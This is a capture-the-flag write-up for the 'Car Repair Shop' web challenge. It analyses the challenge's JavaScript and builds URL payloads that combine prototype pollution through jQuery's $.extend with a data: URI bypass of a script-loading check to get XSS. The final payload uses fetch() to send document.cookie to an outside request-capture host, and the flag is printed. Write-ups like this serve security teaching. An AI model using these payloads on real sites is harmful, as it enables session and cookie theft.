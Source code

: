Car Repair Shop
----
"Your Car broke down?! Come to our shop, we repair all cars! Even very old ones."

Examination Site
----
* JavaScript prototype chain pollution
* XSS

Analysis
----
Viewing the source code,we will found several key files
```html
<script src="assets/js/car.class.js"></script>
<script src="assets/js/util.js"></script>
<!-- <script src="assets/js/car.key.js"></script> -->
```
From car.class.js
```javascript
 powerOn() {
        if (this.isStarted()) {
            infobox(`Well Done!`)
            nextCar()

        } else {
            $('.chargeup')[0].play()
        }
    }

    repair() {
        if(urlParams.has('repair')) {
            $.extend(true, this, JSON.parse(urlParams.get('repair')))
        }
    }

    ignition() {
        if (this.key == "") {
            infobox(`Looks like the key got lost. No wonder the car is not starting ...`)
        }
        if (this.key == "??") {
            infobox(`The car started!`)
            this.start()
        }
    }
}
```
From the Car class, we know the process of repairing the car:
Repair()->powerOn()->ignition().In addition,we found the exploit:
*$.extend(true, this, JSON.parse(urlParams.get('repair')))*
It is easy to know that the exploit is "JavaScript Prototypein pollution".We can write the key through the prototype chain.


From car.class.js
```javascript
porsche.key = "??"
porsche.start()
```
This js file can get the porsche's key and let it start.We have to load it.

From util.js
```javascript

const urlParams = new URLSearchParams(window.location.search)
const h = location.hash.slice(1)
const bugatti = new Car('Bugatti', 'T35', 'green', 'assets/images/bugatti.png')
const porsche = new Car('Porsche', '911', 'yellow', 'assets/images/porsche.png')

const cars = [bugatti, porsche]

porsche.repair = () => {
    if(!bugatti.isStarted()){
        infobox(`Not so fast. Repair the other car first!`)
    }
    else if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
    }
    else{
        infobox(`Repairing this is not that easy.`)
    }
}
porsche.ignition = () => {
    infobox(`Hmm ... WTF!`)
}

$(document).ready(() => {
    const [car] = cars
    $('.fa-power-off').click(() => car.powerOn())
    $('.fa-car').click(() => car.info())
    $('.fa-lightbulb-o').click(() => car.light())
    $('.fa-battery-quarter').click(() => car.battery())
    $('.fa-key').click(() => car.ignition())
    $('.fa-wrench').click(() => car.repair())
    
    $('.fa-step-forward').click(() => nextCar())

    if(h.includes('Bugatti'))
        autoStart(bugatti)
    if(h.includes('Porsche'))
        autoStart(porsche)
})


const nextCar = () => {
    cars.push(cars.shift())
    $(".image").attr('src', cars[0].pic);
}


const autoStart = (car) => {
    car.repair()
    car.ignition()
    car.powerOn()
}


const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}


const infobox = (text) => {
    $('a').css({'pointer-events': 'none', 'border': 'none'})
    $('.infobox').addClass('infoAnimate')
        .text(text)
        .on('animationend', function() {
            $(this).removeClass('infoAnimate')
            $('a').css({'pointer-events': 'all', 'border': 'solid 1px rgba(255, 255, 255, .25)'})
    })
```
It is the main js file.The initialized bugatti and porsche have no keys, we need to write, and then trigger the whole process through * autoStart()*.
In addition,we found *Porsche.repair()* will call *repairWithHelper()* which will load outside js file.Yeah!We will load *car.key.js* with it.
So,let's do it.

Exploit
----

 According to the analysis just,we can add key to bugatti and call its *autoStart()*.And then,we can call *repairWithHelper()* to load *car.key.js*.For $.md5,since it is encrypted from the lowest level of prototype.So we can pollute it prototype to change its MD5 value.
Finally,the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/js/car.key.js#BugattiPorsche
```
Two cars have keys and they have been repaired.
![](./index_files/car_key.png)

Howevers,there is nothing happen.Maybe this isn't the last step.We need to bypass *repairWithHelper()*  and XSS it,but I stopped here since I have no ideas.
By viewing master **WE_0WN_Y0U** writeup ,I make the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,alert(1)//.js#BugattiPorsche
```
And it work!
![](./index_files/xss.png)

Now,we try to get the flag.We can use *fetch()* to send value to the website controlled by ourselves, such as **https://requestbin.com/** which can let us see what will be sent by *fetch()*
Finally,the payload like the following
```http
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,fetch("https://en3c2qcyr45h7.x.pipedream.net/"+document.cookie)//.js#BugattiPorsche
```
The flag is: **flag{brumm_brumm_brumm_brumm_brumm_brumm_brumm}**

